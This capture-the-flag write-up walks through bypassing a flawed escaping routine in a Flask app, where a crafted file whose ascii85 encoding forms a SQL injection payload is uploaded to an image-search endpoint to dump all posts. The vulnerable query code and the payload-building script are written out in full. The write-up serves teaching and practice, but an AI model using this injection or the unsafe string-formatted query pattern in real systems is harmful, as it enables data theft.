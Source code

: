 # 85 Reasons Why

I can give you 85 reasons why you should escape your sql.

![prompt](https://i.imgur.com/0l3sYeX.png)

## Reconnaisance

In `app/views.py` of the source code, we find the following endpoint in the application:

```python
@app.route('/image-search', methods=['GET', 'POST'])
def image_search():
    if 'image-query' not in request.files or request.method == 'GET':
        return render_template('image-search.html', results=[])

    incoming_file = request.files['image-query']
    size = os.fstat(incoming_file.fileno()).st_size
    if size > MAX_IMAGE_SIZE:
        flash("image is too large (50kb max)");
        return redirect(url_for('home'))

    spic = serialize_image(incoming_file.read())
    print("You inputted", spic) # added by me for debugging purposes

    try:
        res = db.session.connection().execute(\
            text("select parent as PID from images where b85_image = '{}' AND ((select active from posts where id=PID) = TRUE)".format(spic)))
    except Exception as e:
        print(e)
        return ("SQL error encountered", 500)

    results = []
    for row in res:
        post = db.session.query(Post).get(row[0])
        if (post not in results):
            results.append(post)

    return render_template('image-search.html', results=results)
```

As we can see, the code sends an sql query by directly substituting in the serialized submitted image. This is an immediate red flag as if we control what the image serializes to, we can perform an sql injection attack.

The serialization function is in `app/utils.py` and is below:

```python
def serialize_image(pp):
    b85 = base64.a85encode(pp)
    b85_string = b85.decode('UTF-8', 'ignore')

    # identify single quotes, and then escape them
    b85_string = re.sub('\\\\\\\\\\\\\'', '~', b85_string)
    b85_string = re.sub('\'', '\'\'', b85_string)
    b85_string = re.sub('~', '\'', b85_string)

    b85_string = re.sub('\\:', '~', b85_string)
    return b85_string
```

From this we can discern that the image is first serialized with base85 and then has a few find and replaces to "mitigate" SQL injections.

## Exploitation

From the vulnerabilities, the overall plan to attack the application is to create an "image" which base85 encodes into an sql injection payload.

To rapidly test different sql injection strings, I wrote the following function in a python repl along with `serialize_image()`:

```python
def get_payload(sql):
    return base64.a85decode(sql)
```

I started with a basic injection `a' or "secret" like "%" --` which will result in the sql query selecting all posts. Since base85 does not have spaces, we must remove the spaces to get `a'or"secret"like "%"--`.

`serialize_image()` escapes the `'` which is a problem since without the `'`, we cannot close the string in the sql command. To get around this, we can replace the `'` with the `\\\\\\\\\\\\\'` from the substitution.

After adding a few characters to the beginning and end to make the string valid base85, we get a base85 of `"ao\\\\\\\\\\\\\'or\"secret\"like\"%\"--kjk"` which will end up decoding to `ao\\\'or"secret"like"%"--kj`. The triple `\` ends up confusing sqlite and doesn't properly escape the `'` into a string terminator. Adding another `\\` to the sequence of `\\\\` in the payload successfully decodes to `ao\\\\'or"secret"like"%"--kj` which gives us all the posts.

I then saved the payload in a file with
```python
with open("sqli.png", "wb+") as fout:
    fout.write(get_payload("ao\\\\\\\\\\\\\\\'or\"secret\"like\"%\"--kjk"))
```

and uploaded it to the image search.

The flag was captured

![flag](https://i.imgur.com/dxcTSIr.png)